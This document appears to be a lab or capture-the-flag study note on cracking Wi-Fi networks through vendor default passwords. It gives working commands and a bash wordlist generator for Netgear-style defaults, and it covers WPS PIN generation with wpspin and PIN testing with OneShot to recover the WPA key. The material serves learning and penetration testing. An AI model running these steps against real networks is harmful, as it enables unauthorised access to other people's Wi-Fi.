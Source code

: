 # Chain #13: Default Credentials & Vendor-Based Cracking

## Goal & Scope

Exploit vendor default password schemes and WPS PIN logic to access Wi‑Fi networks:

- Identify vendor from SSID/BSSID.
- Apply known default password formats.
- Generate Netgear-style defaults with scripts and tools.
- Explore community resources for default generators.
- Generate and test default WPS PINs with wpspin.

---

## Step 1 — Identify Vendor via Reconnaissance

Run airodump‑ng to collect ESSID and BSSID of target:

```bash
sudo airodump-ng wlan0mon -c 1 --essid HackTheBox-Wifi
```

Use OUI lookup to match vendor from MAC prefix:

```bash
grep -i "9C-C9-EB" /var/lib/ieee-data/oui.txt
```

Output example: `NETGEAR`.

---

## Step 2 — Why Vendor Lookup Matters

- Vendors often use predictable default password patterns.
- Knowing the brand narrows attack strategy.
- WPS algorithms may be vendor‑specific.

---

## Step 3 — Netgear Default Password Pattern

Default: `{adjective}{noun}{3 digits}`.  
Examples:

- `sleeksalamander113`    
- `abandonedelephant556`

This pattern is guessable and exploitable.

---

## Step 4 — Public Netgear Wordlist Repository

Clone curated wordlist:

```bash
git clone https://github.com/LivingInSyn/netgear_hashcat_wordlist.git
cd netgear_hashcat_wordlist/wordlists
```

- Contains prebuilt Netgear‑style wordlists.    
- Optimized for Hashcat use.

---

## Step 5 — Manually Building Netgear Wordlists

Custom Bash script combines adjectives, nouns, numbers:

```bash
#!/bin/bash
wordlist1="adjectives.txt"
wordlist2="nouns.txt"
wordlist3="numbers.txt"
output="Netgear_Default.txt"
> "$output"
while IFS= read -r adj; do
  while IFS= read -r noun; do
    while IFS= read -r num; do
      echo "${adj}${noun}${num}" >> "$output"
    done < "$wordlist3"
  done < "$wordlist2"
done < "$wordlist1"
```

- Flexible for testing different lists.    
- Produces candidates like `brightwolf451`.

---

## Step 6 — Netgear Password Constructinator (NPCinator)

Community tool with larger adjective/noun pools:

```bash
python3 NPCinator.py > passwords.txt
```

- Generates extensive candidate lists.    
- Must limit runtime to avoid gigabytes of output.

---

## Step 7 — Other Default Generators

Useful repos:

- **Smart Password Generator** → Based on salt, MAC, BSSID.    
- **IMEI Generator** → For mobile broadband routers.
- **Time Warner/Spectrum Cracker** → Cable routers.
- **Wifi-WPA-Keyspace-List** → WPA keyspaces by vendor.

Maintain a toolkit of vendor‑specific generators.

---

## Step 8 — WPS Default PINs with wpspin

Generate default WPS PIN:

```bash
wpspin D4:BF:7F:EB:29:D2
```

Generate multiple possible PINs:

```bash
wpspin -A D4:BF:7F:EB:29:D2
```

Examples:

- `77215369` (24‑bit)    
- `68175542` (Realtek)
- `12345670` (Cisco)

---

## Step 9 — Test WPS PIN with OneShot

```bash
python3 oneshot.py -i wlan0mon -b D4:BF:7F:EB:29:D2 -p 99956042
```

If successful:

- Displays `WPS PIN`.    
- Reveals `WPA PSK` and `SSID`.

---

## Checklist

1. Capture target ESSID/BSSID with airodump‑ng.    
2. Perform OUI vendor lookup.
3. Apply known vendor default patterns.
4. Use curated Netgear wordlists or scripts.
5. Optionally use NPCinator for larger lists.
6. Explore vendor default generators.
7. Generate WPS PINs with wpspin.
8. Test with OneShot/Reaver to retrieve PSK.